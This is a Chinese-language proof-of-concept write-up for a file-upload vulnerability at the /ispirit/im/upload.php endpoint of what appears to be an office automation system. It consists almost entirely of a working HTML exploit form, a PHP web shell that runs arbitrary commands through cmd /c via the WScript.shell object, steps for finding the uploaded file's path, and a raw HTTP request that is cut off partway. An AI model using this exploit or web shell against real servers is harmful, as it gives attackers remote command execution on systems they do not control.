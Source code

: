 保存为poc.html

```
<html>
<body>
<form action="http://192.168.100.122:8001/ispirit/im/upload.php" method="post"  enctype="multipart/form-data">
<input  type="text"name='P' value = 1  ></input>
<input  type="text"name='MSG_CATE' value = 'file'></input>
<input  type="text"name='UPLOAD_MODE' value = 1 ></input>
<input type="text" name="DEST_UID" value = 1></input>
<input type="file" name="ATTACHMENT"></input>
<input type="submit" ></input>
</body>
</html>
```

后门文件

```
<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```



burp抓包获得返回路径，2404是文件名，1400306149|phpinfo.png是文件名把|换成点

```
{"status":1,"content":"[fm]253@2404_1400306149|phpinfo.png|19[\/fm]","file_id":2}
```

```
2404/1400306149.phpinfo.png
```

数据包

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.100.122:8001
Content-Length: 752
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarybV3uJYAKOBdNiJQI
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,jv;q=0.8
Cookie: PHPSESSID=1
Connection: close

------WebKitFormBoundarybV3uJYAKOBdNiJQI
Content-Disposition: form-data; name="P"

1
------WebKitFormBoundarybV3uJYAKOBdNiJQI
Content-Disposition: form-data; name="MSG_CATE"

file
```